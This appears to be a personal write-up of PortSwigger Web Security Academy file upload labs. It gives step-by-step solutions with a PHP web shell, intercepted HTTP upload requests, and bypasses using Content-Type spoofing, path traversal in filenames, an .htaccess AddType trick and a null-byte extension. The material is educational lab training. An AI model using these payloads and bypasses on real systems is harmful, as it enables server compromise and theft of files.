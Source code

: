 # File upload vulnerabilities


---

<details>
  <summary>Lab: Remote code execution via web shell upload</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter``


---

1. login as ``wiener``
2. make newfile ``exploit.php``

``content`` of it:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

3. on my profile try to upload this file instead of photo

<img width="1140" height="282" alt="image" src="https://github.com/user-attachments/assets/27a7e7ba-24e8-44f4-9cfa-f8f0237436a9" />

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/d63874c1-6f17-4726-8cf3-2c43c93797cb" />

4. it successfully uploaded
5. now want to run this file we know form the request it saved in ``/files/avatars/exploit.php``

```url
https://0a6300e9038f3f07800e218600ea00a0.web-security-academy.net/files/avatars/exploit.php
```
```
mPcV5fg8QF3QG5vvRAjs2BIz4bVAcRra
```

<img width="1541" height="690" alt="image" src="https://github.com/user-attachments/assets/634cd97e-e1b8-4194-816f-b98dd585f83c" />

  
</details>











<details>
  <summary>Lab: Web shell upload via Content-Type restriction bypass</summary>

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 

---

1. login as ``wiener``
2. try to upload the ``exploit.php`` file from the previous lab

<img width="1232" height="149" alt="image" src="https://github.com/user-attachments/assets/27c9ab4e-a4aa-45ea-bcbd-ca7e4a56f62b" />

```http
POST /my-account/avatar HTTP/1.1
Host: 0a5900f8048b466280958aeb001f0009.web-security-academy.net
Cookie: session=JQCpU8NyZ2a2NOLfc3h8MgTUU08KE6Qp
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------165255631921329333142258700441
Content-Length: 546
Origin: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net
Referer: https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="user"


wiener
-----------------------------165255631921329333142258700441
Content-Disposition: form-data; name="csrf"


SroXqhkioX5U46fb2pTZihfwA21q9io7
-----------------------------165255631921329333142258700441--


```

3. change ``Content-Type: application/x-php`` to

```http
Content-Type: image/jpeg
```

boom , it's uploaded successfully 

<img width="1402" height="677" alt="image" src="https://github.com/user-attachments/assets/85ce0cdc-84f1-47e7-8c51-aa44a7199c45" />

4. now run the ``exploit.php``

```
https://0a5900f8048b466280958aeb001f0009.web-security-academy.net/files/avatars/exploit.php
```

<img width="1107" height="188" alt="image" src="https://github.com/user-attachments/assets/f3f6f85d-7630-4d7d-860c-5c494be25cba" />

```
D7rWxnQnptgyIvGxDMbks5trX0Z2bT3w
```



  
</details>








<details>
  <summary>Lab: Web shell upload via path traversal</summary>


> ### This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability. ``path traversal``

> ###  To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file ``/home/carlos/secret``. Submit this secret using the button provided in the lab banner.

> You can log in to your own account using the following credentials: ``wiener:peter`` 


---

1. login as ``wiener``
2. upload ``exploit.php`` file that we used in previous labs

<img width="979" height="170" alt="image" src="https://github.com/user-attachments/assets/b20ec59d-650a-4be2-843a-0f1ac37c31f2" />

it's uploaded successfully !!!

3. now try to run it 

```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/avatars/exploit.php
```

no thing happend !!!!

<img width="1034" height="380" alt="image" src="https://github.com/user-attachments/assets/53ce3704-b2f2-4b56-aba1-ce42a718c25f" />



this mean it not allow files in this directory to excuted ``/avatars``

so if we put the file on ``/files`` by using ``path traversal`` it will run

4. now try to upload ``exploit.php`` again and intercpt the request

```http
POST /my-account/avatar HTTP/2
Host: 0a78004503363a658cb1f98b00190005.web-security-academy.net
Cookie: session=9q473x8Ya7X7vZoCqHNFpEhPDiMhsdur
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------423410706123145428642617479270
Content-Length: 546
Origin: https://0a78004503363a658cb1f98b00190005.web-security-academy.net
Referer: https://0a78004503363a658cb1f98b00190005.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php


<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="user"


wiener
-----------------------------423410706123145428642617479270
Content-Disposition: form-data; name="csrf"


BvzgCzBq7ovrFY8tBRq8TrYlQF11tuIl
-----------------------------423410706123145428642617479270--


```

5. now change filename in ``Content-Disposition: form-data; name="avatar"; filename="exploit.php"`` to ``..%2fexploit.php`` we use ``..%2f`` to bypass the filter instead of ``../``

```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

it's uploaded successfully this proof on ``path traversal``

<img width="1225" height="620" alt="image" src="https://github.com/user-attachments/assets/d74ed916-00fe-42c9-8edd-43c31ae05864" />


6. now run it form ``/files/exploit.php`` not ``/files/avatars/exploit.php``


```
https://0a78004503363a658cb1f98b00190005.web-security-academy.net/files/exploit.php
```


<img width="947" height="229" alt="image" src="https://github.com/user-attachments/assets/8527190e-e0e2-4937-a273-75f403014d34" />


```
MDkBY5byb22IlmP48nQqlbwOjszk9a0z
```

  
</details>










<details>
  <summary>Lab: Web shell upload via extension blacklist bypass</summary>



> You can log in to your own account using the following credentials: ``wiener:peter`` 



---

> ## in this lab server don't allow to upload ``.php`` files
> ### this lab use ``Apache`` server ``+`` ``mod_php`` this php module allow apache to excute ``php`` files Directly
> in apache there is feature call ``per-directory configuration`` that is mean you can add file with instructures inside any directory in server this file call ``.htaccess`` this file change the way that server deal with files in this directory only

1. login as ``wiener``
2. create new file call ``file.txt`` contain

```
AddType application/x-httpd-php .l33t
```

> this content tell ``apache`` that any file with ``.l33t`` extension deal with it as ``php`` file and excute it

when send it change ``filename`` to ``.htaccess``

```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
```

<img width="1224" height="580" alt="image" src="https://github.com/user-attachments/assets/7364949a-a9a0-4f1c-8382-973b6caab83b" />

> #### now if i upload ``php`` file with ``l33t`` extension it will uploaded

3. make file ``exploit.l33t``

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1250" height="616" alt="image" src="https://github.com/user-attachments/assets/a2d662ab-4237-45e1-8632-0574a0007aaf" />

it uploaded successfully 

4. now run this file

```
https://0ac900c804effd6783b30a9a00b1002b.web-security-academy.net/files/avatars/exploit.l33t
```

<img width="997" height="233" alt="image" src="https://github.com/user-attachments/assets/e3297f2c-fd02-414d-8129-54b83d6e3308" />


```
a70CUTgIcfSJ8OgubEYNg29zljZYF2NV
```
  
</details>






<details>
  <summary>Lab: Web shell upload via obfuscated file extension</summary>


1. login as wiener
2. try to change photo and upload **`exploit.php`**

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="1771" height="765" alt="image" src="https://github.com/user-attachments/assets/3822d6f6-4410-4c61-b7f2-f24a5bda8c50" />

3. try to change extension to :

```
exploit.php%00.jpg
```

<img width="1828" height="722" alt="image" src="https://github.com/user-attachments/assets/08c124b2-7601-4f27-a0a0-274f462d4887" />


> it uploaded successfully


```url
GET /files/avatars/exploit.php HTTP/2
```

<img width="1467" height="513" alt="image" src="https://github.com/user-attachments/assets/7cbddfe5-1a53-43f7-ab58-4938202ff147" />


```
raBbwWYE7pk77sdGXjeDvpzl0PTQUbBq
```

  
</details>



<details>
  <summary>Lab: Remote code execution via polyglot web shell upload</summary>





  
</details>










































